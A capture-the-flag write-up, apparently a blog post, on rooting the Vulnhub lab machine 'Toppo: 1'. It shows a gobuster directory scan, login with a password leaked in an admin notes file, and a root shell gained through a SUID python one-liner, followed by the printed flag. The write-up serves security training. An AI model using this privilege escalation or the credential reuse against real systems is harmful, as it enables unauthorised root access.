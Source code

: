 ```yaml
---
layout: post
title:  "Vulnhub - Toppo: 1"
date:   2020-10-19 20:00:00 +1100
category: hacking
---
```


## Introduction
*The Machine isn't hard to own and don't require advanced exploitation .  
Level : Beginner  
DHCP : activated  
Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox)*

This box is on the [NetSecFocus Admin list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) of OSCP-like machines. It's [TOPPO: 1](https://www.vulnhub.com/entry/toppo-1,245/) from vulnhub. It is just a vmdk file which I ran in Virtualbox: I made a new Linux VM and then opened the disk file. It worked ok.

## Ports
This box has:
1. SSH on 22, 
2. HTTP on port 80, 
3. rpcbind on 111 and (probably) 54036 - I didn't check, but that port was open.

## HTTP
Gobuster gives some results:

{% highlight shell %}
root@kali:/opt/vulnhub/toppo# gobuster dir -u http://192.168.1.112 -w /usr/share/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.1.112
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/19 02:55:47 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/LICENSE (Status: 200)
/admin (Status: 301)
/.hta (Status: 403)
/css (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/mail (Status: 301)
/manual (Status: 301)
/server-status (Status: 403)
/vendor (Status: 301)
===============================================================
2020/10/19 02:55:49 Finished
===============================================================
{% endhighlight %}

In the */admin* directory we find *notes.txt*, which says:
>Note to myself :
I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .

From this we can guess that the username is **ted**, and we have the password above. We can SSH in.

## On the box
Linpeas says that **python2.7** has the SUID bit set. Checking */usr/bin* we can see python2.7 is symlinked to *python*. [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) provides a suggestion, which works with a slight modification:

{% highlight shell %}
ted@Toppo:/dev/shm$ python -c 'import os; os.execl("/bin/bash", "sh", "-p")'
sh-4.3# whoami
root
sh-4.3# cd /root
sh-4.3# ls
flag.txt
sh-4.3# cat flag.txt

ASCII art removed

Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}

{% endhighlight %}

And that was that.
